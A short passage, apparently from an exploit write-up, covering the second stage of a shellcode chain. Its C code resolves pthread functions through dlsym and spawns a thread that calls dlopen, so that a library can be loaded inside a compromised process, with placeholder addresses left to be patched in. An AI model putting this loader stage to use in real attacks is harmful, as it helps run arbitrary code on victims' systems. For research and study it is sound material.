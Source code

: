 Shellcode: Stage 2
--

After creating a Real PThread (TM), we can start calling functions. Confusingly, `dlopen` decided to crash if its thread did basically anything else, so we instead spawn a new pthread that only calls `dlopen`. This seems to satisfy it. Also, now that we are in a real pthread, we can use dlsym to resolve functions without needing to resolve them beforehand.

```c
typedef void *(__stdcall *dlopen_t)(const char* path, int mode);
dlopen_t dlopen = (dlopen_t)0x43434343;

typedef void *(__stdcall *dlsym_t)(void *path, const char *symbol);
dlsym_t dlsym = (dlsym_t)0x44444444;

const char *path = (const char*)0x30303030;
int mode = 2;
void *thread_fn(void *arg) {
    // If you do anything else, this thread will die in dlopen
    // (Even if you do it *after* dlopen!)
    return dlopen(path, mode);
}

typedef int (__stdcall *pthread_create_t)(pthread_t *thread, const pthread_attr_t *attr, void *(*start_routine)(void *), void *arg);
typedef int (__stdcall *pthread_join_t)(pthread_t thread, void **value_ptr);
typedef int (__stdcall *pthread_detach_t)(pthread_t thread);
#define RTLD_DEFAULT -2

struct params_t {
    void *shellcode;
    void *user_info;
};

struct params_t params;

int main() {
    // Stage 2 main
    pthread_create_t pthread_create = (pthread_create_t)dlsym((void*)RTLD_DEFAULT, "pthread_create");
    pthread_join_t pthread_join = (pthread_join_t)dlsym((void*)RTLD_DEFAULT, "pthread_join");
    pthread_detach_t pthread_detach = (pthread_detach_t)dlsym((void*)RTLD_DEFAULT, "pthread_detach");


    // We need to open stuff, but calling dlopen is really sketchy. So do it in another thread
    // whose sole job is to call dlopen and get outta there as fast as possible.
    // Also it returns the pointer to the module so we can dlsym() the entry point.
    pthread_t thread;
    int ret = pthread_create(&thread, NULL, thread_fn, NULL);
    void *lib;
    pthread_join(thread, &lib);

    // ...
}
```
